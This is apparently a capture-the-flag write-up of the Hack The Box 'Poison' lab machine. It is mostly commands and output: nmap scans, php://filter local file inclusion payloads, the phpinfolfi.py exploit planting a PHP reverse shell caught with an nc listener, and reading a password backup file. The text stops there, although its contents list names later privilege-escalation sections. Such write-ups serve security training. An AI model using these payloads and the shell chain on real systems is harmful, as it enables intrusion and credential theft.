



#### Poison

- [Attacker Info](#attacker-info)
- [Nmap Scan](#Nmap-scan)
- [Web Enumeration](#web-enumeration)
- [PHPInfo to LFI](#phpinfo-to-lfi)
- [User Shell](#user-shell)
- [Shell via Log Poisoning](#shell-via-log-poisoning)
- [Gaining root using VLC running as root](#gaining-root-using-vlc-running-as-root)

###### Attacker Info

```sh
root@kali:~/poison# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.81/24 brd 10.0.0.255 scope global dynamic noprefixroute eth0
       valid_lft 604602sec preferred_lft 604602sec
    inet6 2601:5cc:c900:4024::ab95/128 scope global dynamic noprefixroute
       valid_lft 604605sec preferred_lft 604605sec
    inet6 2601:5cc:c900:4024:a8f3:ef9f:bc6c:cf18/64 scope global temporary dynamic
       valid_lft 86393sec preferred_lft 86098sec
    inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919/64 scope global dynamic mngtmpaddr noprefixroute
       valid_lft 86393sec preferred_lft 86393sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.4/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1002/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::14ca:dd1a:cdd9:77f/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/poison#
```

###### Nmap Scan

```sh
root@kali:~/poison# nmap -sC -sV -oA poison.nmap 10.10.10.84
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-09 13:09 EDT
Nmap scan report for 10.10.10.84
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.43 seconds
root@kali:~/poison#
```

- [`nmap-bootstrap-xsl`](https://github.com/honze-net/nmap-bootstrap-xsl)

```sh
root@kali:~/poison# wget https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl
--2018-09-09 13:15:22--  https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.200.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.200.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15475 (15K) [text/plain]
Saving to: ‘nmap-bootstrap.xsl’

nmap-bootstrap.xsl                                 100%[================================================================================================================>]  15.11K  --.-KB/s    in 0.02s

2018-09-09 13:15:22 (833 KB/s) - ‘nmap-bootstrap.xsl’ saved [15475/15475]

root@kali:~/poison#
```

```sh
root@kali:~/poison# nmap -sC -sV -oA poison.nmap 10.10.10.84 --stylesheet nmap-bootstrap.xsl
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-09 13:16 EDT
Nmap scan report for 10.10.10.84
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.91 seconds
root@kali:~/poison#
```

```sh
root@kali:~/poison# firefox poison.nmap.xml
```


###### Web Enumeration

```
http://10.10.10.84/
```


```
view-source:http://10.10.10.84/ini.php
http://10.10.10.84/info.php
view-source:http://10.10.10.84/listfiles.php
http://10.10.10.84/phpinfo.php
```




```
http://10.10.10.84/
http://10.10.10.84/browse.php?file=abc
```


```php
php://filter/convert.base64-encode/resource=index.php
```






```sh
root@kali:~/poison# echo -n PGh0bWw+Cjxib2R5Pgo8aDE+VGVtcG9yYXJ5IHdlYnNpdGUgdG8gdGVzdCBsb2NhbCAucGhwIHNjcmlwdHMuPC9oMT4KU2l0ZXMgdG8gYmUgdGVzdGVkOiBpbmkucGhwLCBpbmZvLnBocCwgbGlzdGZpbGVzLnBocCwgcGhwaW5mby5waHAKCjwvYm9keT4KPC9odG1sPgoKPGZvcm0gYWN0aW9uPSIvYnJvd3NlLnBocCIgbWV0aG9kPSJHRVQiPgoJU2NyaXB0bmFtZTogPGlucHV0IHR5cGU9InRleHQiIG5hbWU9ImZpbGUiPjxicj4KCTxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTdWJtaXQiPgo8L2Zvcm0+Cg== | base64 -d
<html>
<body>
<h1>Temporary website to test local .php scripts.</h1>
Sites to be tested: ini.php, info.php, listfiles.php, phpinfo.php

</body>
</html>

<form action="/browse.php" method="GET">
	Scriptname: <input type="text" name="file"><br>
	<input type="submit" value="Submit">
</form>
root@kali:~/poison#
```

```php
php://filter/convert.base64-encode/resource=ini.php
```


```sh
root@kali:~/poison# echo -n PD9waHAKcHJpbnRfcihpbmlfZ2V0X2FsbCgpKTsKPz4K | base64 -d
<?php
print_r(ini_get_all());
?>
root@kali:~/poison#
```


###### PHPInfo to LFI

```
Content-Type: multipart/form-data; boundary=--PleaseSubscribe
Content-Length: 164

----PleaseSubscribe
Content-Disposition: form-data; name="anything"; filename="LeaveAComment"
Content-Type: text/plain

Share the content
----PleaseSubscribe
```


```sh
root@kali:~/poison# git clone https://github.com/swisskyrepo/PayloadsAllTheThings.git /usr/share/PayloadsAllTheThings
Cloning into '/usr/share/PayloadsAllTheThings'...
remote: Counting objects: 1309, done.
remote: Compressing objects: 100% (166/166), done.
remote: Total 1309 (delta 102), reused 156 (delta 58), pack-reused 1069
Receiving objects: 100% (1309/1309), 2.85 MiB | 14.97 MiB/s, done.
Resolving deltas: 100% (605/605), done.
root@kali:~/poison#
```

```sh
root@kali:~/poison# cp /usr/share/PayloadsAllTheThings/File\ Inclusion\ -\ Path\ Traversal/phpinfolfi.py .
```

```sh
root@kali:~/poison# locate php-reverse-shell.php
/usr/share/beef-xss/modules/exploits/m0n0wall/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
root@kali:~/poison#
```

```sh
root@kali:~/poison# python phpinfolfi.py
Don't forget to modify the LFI URL
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Usage: phpinfolfi.py host [port] [threads]
root@kali:~/poison#
```

```sh
root@kali:~/poison# python phpinfolfi.py 10.10.10.84 80 100
Don't forget to modify the LFI URL
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 112940
Spawning worker pool (100)...
 100 /  1000
Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...
```

```sh
root@kali:~/poison# nc -lnvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:17050.
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
 9:55PM  up 2 days,  4:24, 0 users, load averages: 0.34, 0.34, 0.34
USER       TTY      FROM                                      LOGIN@  IDLE WHAT
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
$ hostname
Poison
$ ps auxw
USER   PID  %CPU %MEM    VSZ  RSS TT  STAT STARTED       TIME COMMAND
root    11 100.0  0.0      0   16  -  RL   Fri17   3135:19.16 [idle]
root     0   0.0  0.0      0  160  -  DLs  Fri17      0:00.49 [kernel]
root     1   0.0  0.0   5408  300  -  ILs  Fri17      0:00.00 /sbin/init --
root     2   0.0  0.0      0   16  -  DL   Fri17      0:00.00 [crypto]
root     3   0.0  0.0      0   16  -  DL   Fri17      0:00.00 [crypto returns]
root     4   0.0  0.0      0   32  -  DL   Fri17      0:03.46 [cam]
root     5   0.0  0.0      0   16  -  DL   Fri17      0:00.00 [mpt_recovery0]
root     6   0.0  0.0      0   16  -  DL   Fri17      0:00.00 [sctp_iterator]
root     7   0.0  0.0      0   16  -  DL   Fri17      1:10.46 [rand_harvestq]
root     8   0.0  0.0      0   16  -  DL   Fri17      0:00.01 [soaiod1]
root     9   0.0  0.0      0   16  -  DL   Fri17      0:00.01 [soaiod2]
root    10   0.0  0.0      0   16  -  DL   Fri17      0:00.00 [audit]
root    12   0.0  0.1      0  736  -  WL   Fri17      1:17.07 [intr]
root    13   0.0  0.0      0   48  -  DL   Fri17      0:00.00 [geom]
root    14   0.0  0.0      0  160  -  DL   Fri17      0:09.83 [usb]
root    15   0.0  0.0      0   16  -  DL   Fri17      0:00.02 [soaiod3]
root    16   0.0  0.0      0   16  -  DL   Fri17      0:00.02 [soaiod4]
root    17   0.0  0.0      0   48  -  DL   Fri17      0:03.44 [pagedaemon]
root    18   0.0  0.0      0   16  -  DL   Fri17      0:00.00 [vmdaemon]
root    19   0.0  0.0      0   16  -  DL   Fri17      0:00.01 [pagezero]
root    20   0.0  0.0      0   32  -  DL   Fri17      0:03.22 [bufdaemon]
root    21   0.0  0.0      0   16  -  DL   Fri17      0:00.63 [bufspacedaemon]
root    22   0.0  0.0      0   16  -  DL   Fri17      1:15.87 [syncer]
root    23   0.0  0.0      0   16  -  DL   Fri17      0:01.02 [vnlru]
root   319   0.0  0.3   9560 2980  -  Ss   Fri17      0:10.47 /sbin/devd
root   390   0.0  0.2  10500 1816  -  Ss   Fri17      0:03.49 /usr/sbin/syslogd -s
root   543   0.0  0.3  56320 3512  -  S    Fri17      1:56.86 /usr/local/bin/vmtoolsd -c /usr/local/share/vmware-tools/tools.conf -
root   620   0.0  0.3  57812 3228  -  Is   Fri17      0:00.02 /usr/sbin/sshd
root   625   0.0  0.6  99172 6320  -  Ss   Fri17      0:05.28 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   643   0.0  0.3  20636 3484  -  Ss   Fri17      0:02.79 sendmail: accepting connections (sendmail)
smmsp  646   0.0  0.3  20636 3180  -  Is   Fri17      0:00.06 sendmail: Queue runner@00:30:00 for /var/spool/clientmqueue (sendmail
root   650   0.0  0.2  12592 1764  -  Is   Fri17      0:00.66 /usr/sbin/cron -s
www   7447   0.0  0.9 101220 8712  -  I    21:49      0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7477   0.0  0.9 101220 8712  -  I    21:49      0:00.07 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7479   0.0  0.9 101220 8832  -  I    21:49      0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7498   0.0  0.9 101220 8704  -  I    21:49      0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7514   0.0  0.9 101220 8924  -  S    21:49      0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7528   0.0  0.9 101220 8832  -  I    21:49      0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7532   0.0  0.9 101220 8712  -  I    21:49      0:00.07 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7550   0.0  0.9 101220 8832  -  I    21:49      0:00.07 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7596   0.0  0.9 101220 8656  -  I    21:49      0:00.04 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7603   0.0  0.9 101220 8824  -  I    21:49      0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7604   0.0  0.9 101220 8668  -  I    21:49      0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7622   0.0  0.9 101220 8832  -  I    21:51      0:00.02 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7623   0.0  0.9 101220 8816  -  I    21:51      0:00.03 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7625   0.0  0.9 101220 8816  -  I    21:51      0:00.03 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7627   0.0  0.9 101220 8644  -  I    21:51      0:00.03 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7676   0.0  0.8 101220 8628  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7677   0.0  0.9 101220 8640  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7678   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7679   0.0  0.8 101220 8620  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7680   0.0  0.9 101220 8740  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7681   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7683   0.0  0.9 101220 8728  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7684   0.0  0.9 101220 8728  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7686   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7687   0.0  0.8 101220 8628  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7688   0.0  0.9 101220 8636  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7689   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7690   0.0  0.8 101220 8616  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7691   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7692   0.0  0.9 101220 8636  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7694   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7695   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7697   0.0  0.8 101220 8608  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7700   0.0  0.8 101220 8632  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7701   0.0  0.8 101220 8632  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7702   0.0  0.9 101220 8640  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7703   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7705   0.0  0.9 101220 8728  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7708   0.0  0.8 101220 8608  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7709   0.0  0.9 101220 8688  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7720   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7722   0.0  0.9 101220 8728  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7723   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7726   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7730   0.0  0.8 101220 8628  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7738   0.0  0.8 101220 8608  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7739   0.0  0.8 101220 8552  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7741   0.0  0.8 101220 8552  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7743   0.0  0.8 101220 8552  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7744   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7745   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7746   0.0  0.8 101220 8552  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7747   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7749   0.0  0.8 101220 8552  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7751   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7752   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7753   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7754   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7755   0.0  0.8 101220 8552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7756   0.0  0.8 101220 7756  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7757   0.0  0.8 101220 7756  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7759   0.0  0.8 101220 7756  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7762   0.0  0.9 101220 8640  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7764   0.0  0.8 101220 8632  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7765   0.0  0.0      0    0  -  Z    21:55      0:00.01 <defunct>
www   7768   0.0  0.8 101220 7760  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7769   0.0  0.9 101220 8644  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7770   0.0  0.7 101220 7560  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7775   0.0  0.8 101220 8572  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7778   0.0  0.8 101220 8572  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7779   0.0  0.8 101220 8576  -  S    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7780   0.0  0.8 101220 7784  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7781   0.0  0.8 101220 8568  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7785   0.0  0.8 101220 8556  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7786   0.0  0.8 101220 8560  -  I    21:55      0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7788   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7794   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7795   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7800   0.0  0.8 101220 7784  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7804   0.0  0.8 101220 7784  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7805   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7806   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7807   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7808   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7809   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7810   0.0  0.8 101220 7784  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7811   0.0  0.7 101220 7552  -  I    21:55      0:00.00 /usr/local/sbin/httpd -DNOHTTPACCEPT
www   7818   0.0  0.2  13180 2360  -  S    21:55      0:00.00 /bin/sh -i
www   7827   0.0  0.2  21208 2344  -  R    21:56      0:00.00 ps auxw
root   529   0.0  0.7  23620 6644 v0- I    Fri17      0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /ro
root   540   0.0  0.3  67220 2756 v0- I    Fri17      0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
root   541   0.0  0.3  37620 2728 v0- I    Fri17      0:00.01 twm
root   697   0.0  0.1  10484 1420 v0  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv0
root   698   0.0  0.1  10484 1420 v1  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv1
root   699   0.0  0.1  10484 1420 v2  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv2
root   700   0.0  0.1  10484 1420 v3  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv3
root   701   0.0  0.1  10484 1420 v4  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv4
root   702   0.0  0.1  10484 1420 v5  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv5
root   703   0.0  0.1  10484 1420 v6  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv6
root   704   0.0  0.1  10484 1420 v7  Is+  Fri17      0:00.00 /usr/libexec/getty Pc ttyv7
root   552   0.0  0.2  19660 2308  0  Is+  Fri17      0:00.01 -csh (csh)
$ cd /usr/local/www
$ ls
apache24
$ cd apache24
$ ls -l
total 40
drwxr-xr-x  2 root  wheel   512 Jan 24  2018 cgi-bin
drwxr-xr-x  2 root  wheel   512 Mar 19 16:27 data
drwxr-xr-x  3 root  wheel  1536 Jan 24  2018 error
drwxr-xr-x  3 root  wheel  6656 Jan 24  2018 icons
$ cd data
$ ls
browse.php
index.php
info.php
ini.php
listfiles.php
phpinfo.php
pwdbackup.txt
$ cat pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

